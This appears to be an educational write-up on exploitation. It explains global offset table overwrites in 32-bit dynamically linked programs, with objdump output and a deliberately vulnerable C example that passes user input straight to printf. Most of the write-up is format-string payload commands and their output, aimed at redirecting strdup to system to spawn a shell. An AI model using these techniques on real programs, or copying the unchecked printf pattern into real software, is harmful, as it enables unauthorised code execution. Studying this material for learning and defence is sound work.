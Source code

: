 ## Process Of Getting Code Execution
- In `dynamically linked programs`, these are easy to find when a program attempts to execute a function in a shared library.

- it `does not necessarily know the location of that function at compile time`. Instead, it `jumps` to a `stub function` that `has a pointer to the correct location` of the function in the shared library. 

- This `pointer` (located in the global offset table, or `GOT`) is initialized at runtime when the `stub function is first called`.
	- For example, when `strcat` is used in a program, the following piece of stub code allows the program to find the correct location in the shared library `libc` at run time:
```bash
$ objdump -d a.out
... <snip> ...
08048330 <strcat@plt>:
 8048330:       ff 25 04 a0 04 08       jmp    *0x804a004
 8048336:       68 08 00 00 00          push   $0x8
 804833b:       e9 d0 ff ff ff          jmp    8048310 <_init+0x3c>
... <snip> ...
```
- Here you can see that the `stcat@plt` is the stub function that jumps to GOT entry for `strcat` (the address `0x804a004`)

- We can write any value we want to `0x804a004`. When `strcat` is used later in the program, the program will instead transfer code execution to the value we specified.

- A common technique is to overwrite the GOT entry with the address of the function `system`, thereby turning a call of `strcat(buffer, "hello")` into the call `system(buffer)` (if we can control the contents of `buffer`, we can get a shell!).


### Example
```c
#include <stdio.h>
#include <string.h>
// compile with gcc -m32 temp.c

int main(int argc, char** argv) {
  printf(argv[1]);
  strdup(argv[1]);
}
```
- GAME PLAN:
	- overwrite the GOT entry of `strdup` with the address of `system`, so the program will `printf(argv[1])` then `system(argv[1])`.
	
	- Hence, our payload must be a valid argument to `system` - we will start our payload with `sh;#` 
	
	- which will be `sh` and cause the rest of the payload to be a comment. This also has the advantage of being exactly 4 bytes long, which isn't important for this example but is very useful in other cases
```python
$ env -i ./a.out "$(python -c 'import sys; sys.stdout.write("sh;#AAAABBBB%00000x%17$hp%00000x%18$hp")')"
sh;#AAAABBBB00xf7fcbff48048449(nil)
```
- Our goal is to find the correct offsets (instead of 17 and 18) so that the we output `sh;#AAAABBBB<garbabe>0x41414141<garbage>0x42424242`. This takes some work, but in our case the correct offsets are 99 and 100:
```bash
$ env -i ./a.out "$(python -c 'import sys; sys.stdout.write("sh;#AAAABBBB%00000x%99$hp%00000x%100$hp")')"
sh;#AAAABBBB00x4141414180484490x42424242
```
